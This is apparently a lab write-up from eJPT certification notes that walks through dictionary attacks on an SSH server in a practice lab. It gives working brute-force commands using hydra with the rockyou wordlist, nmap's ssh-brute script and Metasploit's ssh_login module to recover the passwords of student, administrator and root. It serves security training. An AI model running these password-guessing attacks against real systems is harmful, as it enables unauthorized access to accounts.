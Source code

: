 In this challenge, we will look at the dictionary attacks on SSH server. Please start the lab and answer the following questions:

**Questions:**

**1. Find the password of user “student” using hydra.**
   
   gzip -d /usr/share/wordlists/rockyou.txt.gz   
   hydra -l student -P /usr/share/wordlists/rockyou.txt 192.87.3.3 ssh

![image](https://github.com/ALBKIN/eJPT-notes/assets/127192635/2ce3f59b-1b00-4301-98a8-49447494b56b)

 
**2. Find the password of user “administrator” use appropriate Nmap scripts with password dictionary: /usr/share/nmap/nselib/data/passwords.lst**

   echo "administrator" > users   
   nmap -p22 --script ssh-brute --script-args userdb=/root/users 192.87.3.3

 ![image](https://github.com/ALBKIN/eJPT-notes/assets/127192635/2eb97137-3177-47ab-a74e-98d7eb5ad26b)


**3. Find the password of user “root” using ssh_login Metasploit module with userpass dictionary: /usr/share/wordlists/metasploit/root_userpass.txt**

   msfconsole
   use auxiliary/scanner/ssh/ssh_login

   options</br>
   set USERNAME root</br>
   set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt</br>
   set VERBOSE true</br>
   set STOP_ON_SUCCESS true</br>
   setg RHOSTS 192.87.3.3</br>
   exploit</br>
   
  ![image](https://github.com/ALBKIN/eJPT-notes/assets/127192635/c3521c9f-c4f9-4199-b5fb-c844ba4302f8)   
   

**4. What is the message of the day? (Printed after the user logs in to the SSH server).**

   ssh root@192.87.3.3 

![image](https://github.com/ALBKIN/eJPT-notes/assets/127192635/83134eda-8bcc-4fbe-a92b-0bdb01b0c7ff)


